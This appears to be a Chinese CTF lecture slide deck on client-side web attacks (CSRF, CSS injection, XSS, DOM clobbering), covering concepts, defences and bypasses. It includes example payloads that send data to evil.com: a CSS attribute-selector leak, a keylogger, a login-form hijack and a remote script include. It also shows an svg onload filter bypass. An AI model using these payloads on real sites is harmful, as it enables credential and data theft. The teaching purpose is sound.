


<div class="middle center">
<div style="width: 100%">

# Web 专题一 : 用户侧攻击

CSRF / CSS Injection / XSS / Dom Clobbering

</div>
</div>

<div style="margin-top: -250px; margin-right: 20px;display: flex; justify-content: flex-end; align-items: center;">

<h3>
@ yelan
</h3>
</div>

<!--s-->

<div class="middle center">
<div style="width: 100%">

# Part.0 什么是"用户侧攻击"?

站在"黑客"的视角...

</div>
</div>


<!--v-->


## 对于一个目标服务器

<image style="float: right; margin-right: 24px;" src="web-lec2/scan.png" width="45%" style="margin: 0 auto;">

- 它通常会开启一些服务
    + HTTP(HTTPS) 服务: 运行 Web 应用
    + FTP 服务: 传输文件
    + SSH 服务: 远程登录
    + 数据库服务: 存储数据
    + ......
- CTF 中的 Web 题目通常是针对 HTTP 服务的攻击
    + 也就是针对 Web 应用的攻击

<image style="float: right; margin-right: 24px;" src="web-lec2/htb.png" width="45%" style="margin: 0 auto;">

- 对于其他服务
    + 可能在 Misc 题目中体现
    + 可能在实战环境中体现

<!--v-->


## Server-Client 架构

对 Web 应用的攻击过程,一般可以分为两个思路:

<image style="float: right; margin-right: 24px;" src="web-lec2/server-client.png" width="40%" style="margin: 0 auto;">

- 服务侧(后端)
    + 攻击服务器或应用本身
    + 目的是使服务故障,获取敏感信息,提升权限甚至拿到 Shell
    + 手段有 SQL 注入,文件上传等

<image style="float: right; margin-right: 24px;" src="web-lec2/client-side.png" width="40%" style="margin: 0 auto;">

- 用户侧(前端)
    + 攻击同样使用这个应用的**其他用户**
    + 目的是获取其他用户的敏感信息,或诱导其他用户执行恶意操作
    + 手段有 CSRF, XSS 等

<!--v-->


## 用户侧攻击

- 我们要假设存在一个"受害者"
    + 在 CTF 题目中往往以 bot(自动脚本) 的形式出现
    + 它会使用这个 Web 应用并执行一些操作
    + 最终目的是让它执行一段我们精心构造的恶意代码
    
- 💀 作为用户,我们每个人都可能是"受害者"...
    + 钓鱼网站
    + yelan\\u202E~喵\\u202D
    + [QQ探针技术](https://github.com/Y5neKO/qq_xml_ip)
    
    + [打开微信自动下载原神](https://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247485359&idx=1&sn=a3dc73eebed17bd60b89a2e1d766b442&poc_token=HL5NZ2ijIcTVAh5jv6L7Bw4qZBN-FV74W3wj8SpM)
    + 或许更多?


<!--v-->


<div class="middle center">
<div style="width: 100%">

# 让我们继续......

CSRF / CSS Injection / XSS / Dom Clobbering

</div>
</div>

<!--s-->


<div class="middle center">
<div style="width: 100%">

# Part.1 CSRF

</div>
</div>

<!--v-->


## 什么是 Cookie

- 简单来说,Cookie 是浏览器储存的一些数据,用于标识用户身份
- 客户端在与服务器交互时
    + 客户端可以携带 Cookie
    + 服务器可以根据 Cookie 来验证用户身份,也可以在响应中给客户端设置 Cookie
- 例如,用户进行登录,登录成功之后,服务器的响应中带有响应头`Set-Cookie`,浏览器会将这个 Cookie 储存起来,并在之后的请求中顺带发送这个 Cookie,如果服务器验证通过,则认为用户已经登录,不需要再次进行登录验证
- [Cookie Editor](https://chromewebstore.google.com/detail/cookie-editor/ookdjilphngeeeghgngjabigmpepanpl)
- ❓ 怎样的 Cookie 设计是不安全的
<!--v-->


## 想象这样一个情景

- 受害者已经登录过某个商店应用,并持有 Cookie
- 我们诱导受害者访问我们的页面,其中含有一个恶意链接指向商店的购买链接
- 我们诱导受害者点击这个链接,受害者的浏览器会向这个商店发送购买请求
- 由于受害者持有 Cookie,商店会认为受害者已经登录,并完成购买

<div class="center">
    
</div>
<!--v-->


## CSRF 的防御

- Referer 检查
    - 服务器检查请求的 Referer 字段,如果不是来自合法的页面,则拒绝请求
    - 虽然 Referer 可以被伪造,但是对于受害者来说,他既然是被误导点击了恶意链接,那么一般不会手动去修改自己请求的 Referer 字段
- Token
    - 服务器在 Cookie 中设定一个额外的字段 CSRFToken
    - 服务器在购买页面中嵌入这个 Token 值,要求用户在购买时把这个 Token 值一起提交到服务器
    - 只有用户提交的 Token 值与服务器储存的 Token 值一致时,服务器才会认为用户是合法的
    - 这样一来,即使攻击者诱导受害者点击了恶意链接,也无法知道正确的 Token 值,从而无法完成购买
- 通过 CSRF 的例子,我们初步体会到了用户侧攻击的思想,以及绕过防御的思想
<!--v-->


<div class="middle center">
<div style="width: 100%">

# 有没有可能盗取 Token?
# 有没有可能盗取 Cookie?

</div>
</div>


<!--s-->


<div class="middle center">
<div style="width: 100%">

# Part.2 CSS Injection

</div>
</div>

<!--v-->
## 什么是 HTML
- **HTML文档就像一棵树**
```HTML
<html>
<head>
    <title>Title</title>
    <style>
        body { background-color: lightblue; }
        h1 { color: navy; font-size: 24px; }
    </style>
</head>
<body>
    <h1 id="aaa">This is a tag node.</h1>
    <div name="bbb">
        <p>This is also a tag node.</p>
    </div>
</body>
</html>
```

<!--v-->

## 什么是 CSS

- CSS 是一种样式表语言,用于描述 HTML 文档的外观和格式
- 浏览器向服务器发送请求,服务器返回 HTML 文档,浏览器解析 HTML 文档并渲染页面
- 其中 `<style>` 和其他某些标签用于定义 CSS 样式
- HTML 也可以引用外部 CSS 文件
- 如果我们可以控制受害者收到的 HTML 文档中的 CSS 样式,我们能做什么?
<div style="display:flex;justify-content: center;align-items: center;">
    
</div>
<!--v-->


## CSS 示例

- CSS 通过[选择器](https://developer.mozilla.org/zh-CN/docs/Web/CSS/CSS_selectors)来选择 HTML 元素,并应用样式

```css
h1 { color: red;}                       // 元素选择器,选择所有 h1 元素
#myId { font-size: 20px; }              // ID选择器,选择 ID 为 myId 的元素
.myClass { background-color: yellow; }  // 类选择器,选择所有 class 为 myClass 的元素
[type="text"] { border: 1px; }          // 属性选择器,选择所有 type 属性为 text 的元素
                                        // 组合选择器......
p::first-line { font-weight: bold; }    // 伪元素选择器,选择所有 p 元素的第一行
```
- 但是只修改受害者的页面样式似乎是不够的,如何才能与受害者进行交互?

<!--v-->


## CSS Injection

- 通过 CSS 的一些特性可以泄露受害者当前页面的敏感信息

```html
<!-- 以下是受害者 HTML 中的敏感信息 -->
<input name="secret" value="AAA{secret}">
<!-- 以下是你注入的恶意 CSS -->
<style>
    input[name="secret"][value^="A"]{ 
        background-image: url(http://evil.com/?start=A);
    }
</style>
```

- 运用到了布尔盲注的思想
- CSS Injection 的攻击性依赖于 CSS 的功能,而 CSS 的功能是有限的
- CSS Injection 要求我们能够控制受害者收到的 HTML 文档中的 CSS 样式,但这是很难的

<!--s-->

<div class="middle center">
<div style="width: 100%">

# Part.3 XSS

</div>
</div>

<!--v-->

## 什么是 XSS

- 跨站脚本攻击,基于 HTML 和 JavaScript
- 最终目的是让"受害者"执行一段我们精心构造的 JavaScript 代码
- 最小模型:
    + 服务端:
        - 接受用户的输入,并储存到自己的数据库中
        - 当用户访问某个页面时,从数据库中读取数据并返回给用户
    + 客户端:
        - 攻击者:构造恶意输入,使服务端储存到数据库中
        - 受害者:访问页面时,获取到了恶意输入,并执行了恶意代码
- XSS 的危害性取决于 JavaScript 的能力
    + Cookie泄露,内网扫描,键盘记录,权限获取
- 在 CTF 题目中,往往只要求我们泄露某些敏感信息
<!--v-->


## 稍等一下...

- HTML/JavaScript 复习
    + 浏览器向服务器发送请求,服务器返回 HTML 文档,浏览器解析 HTML 文档并渲染页面
    + 其中 `<script>` 和其他某些标签用于执行 JavaScript 代码
    + 所以 XSS 发生在**浏览器中**,在受害者浏览器**解析 HTML 文档时**
- 老师没教过 HTML 和 JavaScript?
    + 在查找资料和询问 AI 的基础上快速上手一门语言是程序员的基本素养
    + 对于简单的 XSS 攻击,不需要了解 JavaScript 和 HTML 的复杂特性,只需要学会基本运用

<!--v-->


## 让我们演示一下
```javascript
// 这种只验证漏洞存在而不造成实际损害的测试代码被称为 POC (Proof of Concept)
alert("Hello, world!");
// 与之相对,进行实际攻击的代码被称为 Payload
// 键盘监听器
var keys = "";
document.onkeypress = function(e) {
  keys += e.key;
  if(keys.length > 30) {
    fetch("http://evil.com/keys?data=" + encodeURIComponent(keys));
    keys = "";
  }
}
// 替换登录表单
document.querySelectorAll('form')[0].action = "https://evil.com/fake_login";
// ......
```

<!--v-->


## 一定要直接插入 Script 代码吗

```html
<script src="https://evil.com/xss.js"></script>
```
- 攻击方式进一步简化
- 攻击者只需要修改自己的`xss.js`文件就可实现不同种类的攻击


<!--v-->


## XSS 的防御及绕过

- 与 WAF(Web Application Firewall) 的对抗是 WEB 的常态
- 过滤
    + 前端过滤: 抓包绕过
    + 过滤掉 `<script>` 标签: 利用 ``, `<svg>` 等绕过
        - `<svg onload="alert('XSS')"></svg>`
    + 过滤掉 `on*` 事件: 利用 `javascript:` 协议绕过
    + 第三方库: `DOMPurify` 等
        - 库的配置不当会导致绕过
- HTML 转义
- CSP(Content Security Policy)
    + 限制页面加载的资源,如脚本、样式等
    + 但不安全的 CSP 配置也有绕过方式

<!--v-->

## 绕过不是一定成功的

- 要针对不同的 WAF 设计不同的绕过策略
- 积累经验
- 多查资料
    + [hacktricks](https://book.hacktricks.wiki/en/pentesting-web/pocs-and-polygloths-cheatsheet/index.html?highlight=xss#xss)
    + [PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass)

<!--v-->

## 我没有域名/公网 IP

- 什么是公网?
- 什么是内网穿透
- 内网穿透工具
    + [Cpolar](https://www.cpolar.com/)
- 或者:
    + 有没有其他办法可以获取到"受害者向他能访问到的地址发送的敏感信息"?
    + [webhook](https://webhook.site/)

<!--v-->


<div class="middle center">
<div style="width: 100%">

# CSRF 留下的两个问题?

</div>
</div>
<!--s-->


<div class="middle center">
<div style="width: 100%">

# Part.4 Dom Clobbering

</div>
</div>
<!--v-->

## 什么是 DOM
- DOM (Document Object Model) 是浏览器解析 HTML 文档后形成的一个树状结构
- DOM 中的每个节点都代表 HTML 文档中的一个元素
- JavaScript 可以通过 DOM API 来操作这些节点,例如添加、删除、修改节点等
```JavaScript
const string = "AAA\u202E~喵\u202D:hack成功了";
const target = document.getElementById("target");   // 获取目标元素
for (let i = 0; i < string.length; i++) {
    const span = document.createElement("span");    // 创建一个新的 span 元素
    span.textContent = string.slice(0, i + 1);
    // 将新元素添加到目标元素中
    target.appendChild(span);
    target.appendChild(document.createElement("br"));
}
```
- 那是否有可能通过 DOM 的操作来影响 JavaScript 的执行?

<!--v-->

## DOM Clobbering

- 不同浏览器对 DOM 的处理方式不一定完全相同,接下来的测试均运行在 Chrome 浏览器上
- [named-access-on-the-window-object](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object)

```html
<h1 id="x"></h1>
<h2 id="x"></h2>
<embed name="e"></embed>
<object name="o"></object>
<form id="f">
    <input type="text" id="i" value="test">
</form>
```

- 既然如此,那么如果我们在一定程度上可控 DOM,就可以进行其他角度的攻击
<!--v-->

## DOM Clobbering

- id 可以直接用 window 访问
- embed, form, img 跟 object 等也可以用 name 访问
- 可以利用 name 或 id 访问 form 的某些特定子元素
    + button,input
- 如果回传的元素很多,会被打包成 HTMLCollection,进而用 name 或 id 访问

```html
<form id="f">
    <input id="aaa"/>
    <button name="bbb"/>
</form>
<div id="ccc" name="c1"/>
<div id="ccc" name="c2"/>
```

<!--v-->

## 意料外的 toString

- 假设我们已经篡改了 JS 中的某个关键变量为我们构造的恶意 DOM 元素,而且这个变量大概率是要加入到计算中的
- HTML 元素与字符串进行拼接时,会调用其 toString 方法
    + 绝大部分 HTML 元素的 toString 方法返回的是一个[object SomeElement]
        - [object SomeElement]与字符串拼接时,结果也是[object SomeElement],无法利用
    + `<a>` 和 `<area>` 的 toString 方法返回的是其 href 属性,是个字符串
        - 这就可以利用了,可以将其 href 属性设置为恶意链接,从而实现 XSS

<!--v-->

## 绕过 XSS 过滤

```javascript
var script = window.document.createElement("script");

var loc;
if (AMP_MODE.test && window.testLocation) {
    loc = window.testLocation
} else {
    loc = window.location;
}

if (AMP_MODE.localDev) {
    loc = loc.protocol + "//" + loc.host + "/dist"
} else {
    loc = "https://cdn.ampproject.org";
}

script.src = loc;
document.head.appendChild(script);
```


<!--s-->

<div class="middle center">
<div style="width: 100%">

# Thank you!

</div>
</div>

<div style="margin-top: -250px; margin-right: 20px;display: flex; justify-content: flex-end; align-items: center;">

<h3>
@ yelan
</h3>
</div>